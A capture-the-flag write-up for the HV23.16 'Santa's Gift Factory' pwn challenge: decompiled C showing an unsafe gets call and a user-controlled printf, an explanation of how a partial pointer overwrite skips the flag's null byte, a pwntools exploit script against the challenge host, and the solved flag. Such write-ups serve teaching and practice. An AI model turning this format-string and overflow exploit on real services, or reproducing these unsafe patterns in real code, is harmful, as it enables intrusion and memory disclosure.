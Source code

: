 # [HV23.16] Santa's Gift Factory

## Introduction

Difficulty: Hard<br>
Author: Fabi_07

Did you know that Santa has its own factory for making gifts? Maybe you can exploit it to get your own special gift!

## Solution

Looking at the program, it first asks us if we want to help santa with counting the presents, we answer `y` which gives us a task to count t he red, yellow and blue presents. Afterwards it asks for our name and if there's anything else he can assist us with.

```c
void tellflag(void)
{
  int iVar1;
  size_t sVar2;
  undefined local_ae [6];
  char local_a8 [136];
  undefined8 local_20;
  int local_14;
  FILE *local_10;
  
  local_10 = fopen("flag","r");
  if (local_10 == (FILE *)0x0) {
    error("Opening flag file failed!!! Please contact the admins.");
  }
  sVar2 = fread(local_ae,1,5,local_10);
  local_14 = (int)sVar2;
  local_ae[local_14] = 0;
  iVar1 = fclose(local_10);
  if (iVar1 < 0) {
    error("Closing flag file failed!!! Please contact the admins.");
  }
  system("./magic.sh");
  local_20 = getstr("Santa: One last thing, can you tell me your name?");
  printf("\nSanta: Let me see. Oh no, this is bad, the flag vanished before i could read it entirely . All I can give you is this: %s. I am very sorry about this and would like to apologise for the i nconvenience.\n"
         ,local_ae);
  gets("\nSanta: Can I assist you with anything else?",local_a8);
  printf("\nSanta: You want me to help you with ");
  printf(local_a8);
  puts("?\nSanta: I will see what I can do...");
  return;
}
```

We can see why it only prints the first few characters of the flag, because after reading it into memory, it sets the last byte to a null-byte, the flag pointer still remains on the stack though.

We can see inside the `tellflag` function, we have a `printf` vulnerability, which lets us leak memory. In addition, we have a buffer overflow because of `gets` reading into `local_a8` which has a fixed size of `136`. We can exploit this together with the format string to read the flag pointer from the stack while overwriting the pointer itself with `0x84` instead of `0x80` to "jump" over the nullbyte which terminates the flag.

```py
from pwn import *

rem = remote('152.96.15.2', 1337)
rem.recvuntil(b"? \x1b[?25h")
rem.sendline(b"y")
rem.recvuntil(b"\n\n")
presents = rem.recvuntil(b"\n\n")

red = presents.count(b"red")
yellow = presents.count(b"yellow")
blue = presents.count(b"blue")

rem.recvuntil(b"\n > ")
rem.sendline(f"{red}".encode())
rem.recvuntil(b"\n > ")
rem.sendline(f"{yellow}".encode())
rem.recvuntil(b"\n > ")
rem.sendline(f"{blue}".encode())
rem.recvuntil(b"name?\n > \x1b[?25h")
rem.sendline(b"A")
rem.recvuntil(b"else?\n > \x1b[?25h")
rem.sendline(b"%25$s" + b"A"*131 + b"\x84")

print(rem.recvall())
```

Flag: `HV23{roses_are_red_violets_are_blue_the_bufferoverfl0w_is_0n_line_32}`